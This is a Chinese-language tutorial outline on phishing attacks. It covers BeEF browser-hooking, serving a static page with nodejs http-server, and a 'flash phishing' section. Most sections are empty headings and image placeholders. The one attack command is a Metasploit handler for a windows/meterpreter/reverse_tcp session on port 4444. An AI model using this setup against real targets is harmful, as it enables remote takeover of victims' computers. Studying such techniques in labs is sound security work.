



# 网络钓鱼攻击

> 可能需要的：[kali Linux 切换镜像源](https://blog.w1ndys.top/posts/3073af94)

## 安装并启动


## 利用 BeEF 进行网页钓鱼攻击


## 利用 nodejs 开启静态服务

> 补充利用 nodejs 开启静态服务
>
> ```bash
> sudo apt update
> sudo apt install nodejs npm
> ```
>
> 安装完成后进入你的静态文件所在目录
>
> 开启命令行
>
> ```bash
> http-server
> ```


## 成功上线


## 发送警告命令


## 通过 flash 钓鱼获取目标控制权

```bash
msf6 > handler -H 127.0.0.1 -P 4444 -p windows/meterpreter/reverse_tcp
```









